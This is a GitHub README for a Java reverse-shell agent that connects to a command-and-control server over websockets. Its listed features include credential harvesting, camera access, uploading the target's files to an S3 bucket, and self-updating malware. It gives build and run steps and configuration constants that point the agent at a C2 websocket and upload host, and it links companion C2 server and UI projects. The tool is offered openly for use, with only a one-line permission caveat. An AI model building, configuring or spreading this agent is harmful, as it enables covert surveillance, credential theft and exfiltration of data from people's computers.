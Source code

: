 # Java Reverse Shell with Websockets

This Java project implements a reverse shell that connects to a command and control server using websockets.

## Features

- Upload Files to S3 bucket
- Play rick roll on target computer
- Access camera 
- Harvest Credentials
- Update Malware

## Table of Contents

- [Prerequisites](#prerequisites)
- [Installation](#installation)
- [Usage](#usage)
- [Configuration](#configuration)
- [Security Considerations](#security-considerations)
- [C2 Components](#C2-Components)
- [Contributing](#contributing)

## Prerequisites

Before you begin, ensure you have the following prerequisites:

- Java Development Kit (JDK) installed
- Maven installed

## Installation

1. Clone the repository:

    ```bash
    git clone https://github.com/The-Hustler-Hattab/ReverseShellWebSocketAgent.git
    ```

2. Navigate to the project folder:

    ```bash
    cd ReverseShellWebSocketAgent
    ```

3. Build the project using Maven:

    ```bash
    mvn clean install
    ```

## Usage
The project will generate jar with dependencies and exe file.
To use the reverse shell, run the following command:

```bash
java -jar target/reverseShell-1.0.1-jar-with-dependencies.jar
```
## Configuration
Configure the reverse shell by editing the src/main/com/mtattab/reverseshell/util/constants file. Update the following properties:
```java
public static final String SERVER_WEBSOCKET_URI = "wss://c2-server.mtattab.com/reverseShellClients" ; // c2 websocket uri
public static final String SERVER_HTTP_URI = "https://c2-server.mtattab.com" ; // c2 uri for uploading files to s3
```


## Security Considerations
Ensure that you have permission to run the reverse shell on the target system.
Use secure connections (e.g., HTTPS) for the command and control server.
Implement additional security measures as needed for your specific use case.

## C2-Components

[C2 UI](https://github.com/The-Hustler-Hattab/c2-ui)  
[C2 Server](https://github.com/The-Hustler-Hattab/C2JavaServer)   
[C2 Agent](https://github.com/The-Hustler-Hattab/ReverseShellWebSocketAgent)


## Contributing
Contributions are welcome! 
Please make a pull request for new features